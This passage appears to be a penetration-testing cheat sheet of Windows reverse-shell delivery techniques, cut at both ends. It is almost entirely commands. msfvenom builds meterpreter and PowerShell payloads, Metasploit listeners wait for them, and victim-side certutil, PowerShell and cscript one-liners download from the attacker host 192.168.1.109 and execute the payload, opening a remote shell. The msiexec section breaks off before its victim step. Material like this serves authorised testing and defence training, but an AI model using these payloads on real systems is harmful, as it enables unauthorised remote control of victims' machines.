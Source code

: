 ```bash
msfvenom -p windows/meterpreter/reverse_tcp lhost=192.168.1.109 lport=1234 -f exe > shell.exe
```
```bash
use  exploit/multi/handler
msf exploit(multi/handler)  >  set payload windows/meterpreter/reverse_tcp
msf exploit(multi/handler)  >  set lhost  192.168.1.109
msf exploit(multi/handler)  >  set lport  1234
msf exploit(multi/handler)  >  exploit
```
Victim:
```bash
certutil.exe -urlcache -split -f http://192.168.1.109/shell.exe shell.exe & shell.exe
```
#### Powershell.exe
Attacker:
```bash
git clone  https://github.com/besimorhino/powercat.git
python  -m  SimpleHTTPServer  80
```
```bash
nc lvp 1234
```
Victim:
```bash
powershell -c "IEX(New-Object System.Net.WebClient).DownloadString('http://192.168.1.109/powercat.ps1');powercat -c 192.168.1.109 -p 1234 -e cmd"
```
OR
Attacker:
```bash
msfvenom  -p  cmd/windows/reverse_powershell lhost=192.168.1.109  lport=1234 > 	1.bat
```
```bash
nc lvp 1234
```
Victim:
```bash
powershell  -c  "IEX((New-Object  System.Net.WebClient).DownloadString('http://192.168.1.109/1.bat'))
```
#### Cscript.exe
Attacker:
```bash
msfvenom  -p  cmd/windows/reverse_powershell lhost=192.168.1.109  lport=1234  -f  vbs  >  1.vbs
```
```bash
use  exploit/multi/handler
msf exploit(multi/handler)  >  set payload windows/meterpreter/reverse_tcp
msf exploit(multi/handler)  >  set lhost  192.168.1.109
msf exploit(multi/handler)  >  set lport  1234
msf exploit(multi/handler)  >  exploit
```
Victim:
```bash
powershell.exe  -c  "(New-Object System.NET.WebClient).DownloadFile('http://192.168.1.109/1.vbs',\"$env:temp\test.vbs\");Start-Process %windir%\system32\cscript.exe \"$env:temp\test.vbs\""
```
#### Msiexec.exe
Attacker:
```bash
msfvenom  -p  windows/meterpreter/reverse_tcp lhost=192.168.1.109  lport=1234  -f  msi  >  1.msi
```
```bash
use  exploit/multi/handler
msf exploit(multi/handler)  >  set payload windows/meterpreter/reverse_tcp
msf exploit(multi/handler)  >  set lhost  192.168.1.109
msf exploit(multi/handler)  >  set lport  1234
```